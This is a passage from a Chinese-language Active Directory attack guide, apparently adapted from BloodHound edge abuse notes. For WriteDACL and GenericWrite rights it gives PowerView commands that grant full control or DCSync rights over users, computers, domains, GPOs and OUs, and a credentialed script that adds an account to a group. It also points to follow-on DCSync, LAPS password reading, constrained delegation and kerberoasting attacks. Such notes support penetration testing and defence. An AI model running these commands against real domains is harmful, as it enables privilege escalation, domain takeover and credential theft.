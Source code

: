 使用对用户的 WriteDACL，授予您自己对用户对象的完全控制权：

```
Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All
```

有关如何从那里继续的更多信息，请参阅用户的 ForceChangePassword 和 GenericAll 的滥用信息。

**电脑**

通过计算机对象上的 WriteDACL，授予您自己对计算机对象的完全控制权：

```
Add-DomainObjectAcl -TargetIdentity windows1 -Rights All
```

然后读取计算机的 LAPS 密码属性或对目标计算机执行基于资源的约束委派。

**域名**

通过针对域对象的 WriteDACL，您可以授予自己 DCSync 的能力：

```
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

然后执行DCSync攻击。

**GPO**

通过 GPO 上的 WriteDACL，您可以完全控制 GPO：

```
//给TestGPO设置所有权限
Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All
```

然后编辑 GPO 以接管 GPO 应用到的对象。

**组织单元**

通过 OU 上的 WriteDACL，授予您自己对该 OU 的完全控制权：

```
Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All
```

然后向 OU 添加一个新的 ACE，该 ACE 向下继承到子对象以接管这些子对象。

## GenericWrite

通用写入访问权限使您能够写入目标对象上的任何不受保护的属性，包括组的“成员”和用户的“serviceprincipalnames”

+ 滥用信息

**用户**

使用 GenericWrite 对用户执行有针对性的 kerberoasting 攻击。有关更多信息，请参阅 GenericAll 边缘下的滥用部分

**团体**

通过组上的 GenericWrite，将您自己或您控制的其他主体添加到组中。请参阅 AddMembers 边缘下的滥用信息以了解更多信息

```
# 创建认证信息
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd) 
# Add user to group
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
# 检查用户是否已添加
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
# Remove group member
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```
